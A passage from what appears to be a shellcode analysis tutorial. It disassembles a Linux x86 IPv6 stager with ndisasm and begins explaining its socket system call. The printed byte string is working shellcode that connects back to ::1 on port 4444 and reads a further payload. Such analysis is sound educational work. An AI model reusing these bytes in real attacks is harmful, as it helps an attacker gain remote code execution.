~~~ bash
~~~


#### ndisasm Disassembly

ndisasm can be used to disassemble the shellcode into meaningful assembly instructions.

~~~ nasm
skawa@ubuntu:~/libemu/tools/sctest$ echo -ne "\x31\xdb\x53\x43\x53\x6a\x0a\x89\xe1\x6a\x66\x58\xcd\x80\x96\x99\x68\x00\x00\x00\x00\x68\x00\x00\x00\x01\x68\x00\x00\x00\x00\x68\x00\x00\x00\x00\x68\x00\x00\x00\x00\x52\x66\x68\x11\x5c\x66\x68\x0a\x00\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x89\xf3\xb6\x0c\xb0\x03\xcd\x80\x89\xdf" | ndisasm -u -
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  43                inc ebx
00000004  53                push ebx
00000005  6A0A              push byte +0xa
00000007  89E1              mov ecx,esp
00000009  6A66              push byte +0x66
0000000B  58                pop eax
0000000C  CD80              int 0x80
0000000E  96                xchg eax,esi
0000000F  99                cdq
00000010  6800000000        push dword 0x0
00000015  6800000001        push dword 0x1000000
0000001A  6800000000        push dword 0x0
0000001F  6800000000        push dword 0x0
00000024  6800000000        push dword 0x0
00000029  52                push edx
0000002A  6668115C          push word 0x5c11
0000002E  66680A00          push word 0xa
00000032  89E1              mov ecx,esp
00000034  6A1C              push byte +0x1c
00000036  51                push ecx
00000037  56                push esi
00000038  89E1              mov ecx,esp
0000003A  43                inc ebx
0000003B  43                inc ebx
0000003C  6A66              push byte +0x66
0000003E  58                pop eax
0000003F  CD80              int 0x80
00000041  89F3              mov ebx,esi
00000043  B60C              mov dh,0xc
00000045  B003              mov al,0x3
00000047  CD80              int 0x80
00000049  89DF              mov edi,ebx
skawa@ubuntu:~/libemu/tools/sctest$
~~~

Looking at the disassembly above, there are three system call interrupts.

#### Interrupt 1 - Socket Creation
The first chunk of instructions are responsible for creating a IPv6 socket.
